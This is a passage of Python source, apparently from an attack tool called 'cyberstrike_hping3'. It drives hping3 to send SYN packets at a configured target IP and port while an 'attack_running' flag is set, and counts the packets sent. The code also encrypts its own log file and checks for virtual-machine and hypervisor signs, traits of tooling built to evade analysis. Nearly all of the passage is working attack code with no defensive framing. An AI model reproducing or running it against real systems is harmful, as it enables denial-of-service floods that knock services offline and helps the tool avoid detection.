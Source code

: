 ````
fernet = Fernet(config.encryption_key.encode())
log_file = f"cyberstrike_hping3_{datetime.datetime.now().strftime('%Y%m%d_%H%M%S')}.enc"
console_lock = threading.Lock()

# Secure logging
def secure_log(message, level="INFO"):
    timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    log_message = f"[{timestamp}] {level.upper()}: {message}"
    if config.encrypted_logging:
        encrypted_message = fernet.encrypt(log_message.encode())
        with open(log_file, "ab") as f:
            f.write(encrypted_message + b"\n")
    with console_lock:
        console.print(f"[{'green' if level == 'INFO' else 'yellow' if level == 'WARNING' else 'red'}]{log_message}[/]")

# Resource monitoring
def log_resources():
    cpu_percent = psutil.cpu_percent(interval=1)
    memory_percent = psutil.virtual_memory().percent
    memory_total = psutil.virtual_memory().total / (1024*1024)
    memory_used = psutil.virtual_memory().used / (1024*1024)
    secure_log(f"Resource usage: CPU {cpu_percent:.1f}%, Memory {memory_percent:.1f}%, Total {memory_total:.1f}MB, Used {memory_used:.1f}MB")

# VM detection
def check_virtual_machine() -> bool:
    checks = [
        lambda: platform.system().lower() == "linux" and any(vm in open("/sys/class/dmi/id/product_name", "r").read().lower() for vm in ["vmware", "virtual", "kvm", "qemu"] if os.path.exists("/sys/class/dmi/id/product_name")),
        lambda: "hypervisor" in open("/proc/cpuinfo", "r").read().lower() if os.path.exists("/proc/cpuinfo") else False,
        lambda: subprocess.run(["systemd-detect-virt"], capture_output=True, text=True).stdout.strip() != "none"
    ]
    return any(check() for check in checks)

# Run hping3
def run_hping3():
    cmd = [
        "hping3", "-S", "-p", str(config.port), "-c", str(config.packet_count),
        "-I", config.interface, config.target_ip
    ]
    try:
        process = subprocess.Popen(
            cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True
        )
        while attack_running and process.poll() is None:
            line = process.stdout.readline()
            if line:
                if "packets transmitted" in line:
                    parts = line.split()
                    sent = int(parts[0])
                    received = int(parts[3])
                    with lock:
                        stats["packets_sent"] += sent
                        stats["packets_received"] += received
                secure_log(line.strip())
            time.sleep(0.1)
        stderr = process.stderr.read()
        if stderr:
            secure_log(f"hping3 stderr: {stderr}", "WARNING")
````